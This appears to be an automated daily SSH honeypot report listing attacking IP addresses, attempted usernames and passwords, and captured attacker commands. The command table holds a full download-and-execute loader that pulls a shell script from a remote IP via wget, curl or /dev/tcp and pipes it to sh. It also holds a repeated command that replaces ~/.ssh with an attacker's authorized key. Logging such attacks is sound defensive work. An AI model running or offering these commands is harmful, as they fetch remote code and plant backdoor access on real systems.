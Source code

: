 # ZOE - The daily report for the malicious behavior

> daily report for the malicious user behavior

This is the daily report for the malicious user behavior. It is generated by the ZOE system.

## SSH

The following table shows the top 10 malicious SSH users that have been detected by the ZOE
system. The table is sorted by the number of attempts.

### Top 10 malicious users

| Client IP | Count    |
|-----------|----------|
| 47.96.103.208 | 5663 |
| 149.129.249.160 | 4541 |
| 47.104.171.98 | 4264 |
| 47.242.151.31 | 3632 |
| 47.253.158.216 | 2849 |
| 39.106.143.108 | 1667 |
| 8.211.222.14 | 563 |
| 47.251.104.144 | 369 |
| 8.130.102.128 | 252 |
| 1.92.121.249 | 159 |

### Top 10 malicious try to login as

| Usernames | Count    |
|-----------|----------|
| root | 1444 |
| cvs | 504 |
| kali | 504 |
| tomcat | 503 |
| cynthia | 501 |
| toor | 501 |
| ubuntu | 34 |
| ubuntu2 | 9 |
| terraria | 7 |
| test | 7 |

### Top 10 malicious try to authenticate with

| Password | Count    |
|-----------|----------|
| 123456 | 52 |
| 111111 | 23 |
| root | 18 |
| 123 | 16 |
| P@ssw0rd | 14 |
| password | 13 |
| 1234 | 13 |
| welcome@2020 | 10 |
| rootoor | 10 |
| root!123456 | 10 |

### Top malicious commands try to execute

| Client | Command |
|--------|---------|
| 5.182.211.148 | uname -a; echo -e "\x61\x75\x74\x68\x5F\x6F\x6B\x0A"; SC=$(wget -O- http://154.216.19.57/sh \|\| curl http://154.216.19.57/sh); if [ $? -ne 0 ]; then exec 3<>"/dev/tcp/154.216.19.57/80"; echo -e "GET /sh HTTP/1.0\r\nHost: 154.216.19.57\r\n\r\n" >&3; (while read -r line; do [ "$line" = $'\r' ] && break; done && cat) <&3 \| sh -s ssh; exec 3>&-; else echo "$SC" \| sh -s ssh; fi
 |
| 1.92.121.249 | uname -s -m |
| 119.96.31.97 | uname -s -m |
| 192.241.141.141 | cd ~; chattr -ia .ssh; lockr -ia .ssh |
| 192.241.141.141 | cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr">>.ssh/authorized_keys && chmod -R go= ~/.ssh && cd ~ |
| 192.241.141.141 | cat /proc/cpuinfo \| grep name \| wc -l |
| 77.232.142.189 | cd ~; chattr -ia .ssh; lockr -ia .ssh |
| 77.232.142.189 | cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr">>.ssh/authorized_keys && chmod -R go= ~/.ssh && cd ~ |
| 77.232.142.189 | cat /proc/cpuinfo \| grep name \| wc -l |
| 203.171.21.222 | cd ~; chattr -ia .ssh; lockr -ia .ssh |
| 203.171.21.222 | cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr">>.ssh/authorized_keys && chmod -R go= ~/.ssh && cd ~ |
| 203.171.21.222 | cat /proc/cpuinfo \| grep name \| wc -l |
| 109.167.197.20 | cd ~; chattr -ia .ssh; lockr -ia .ssh |
| 109.167.197.20 | cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr">>.ssh/authorized_keys && chmod -R go= ~/.ssh && cd ~ |
| 109.167.197.20 | cat /proc/cpuinfo \| grep name \| wc -l |

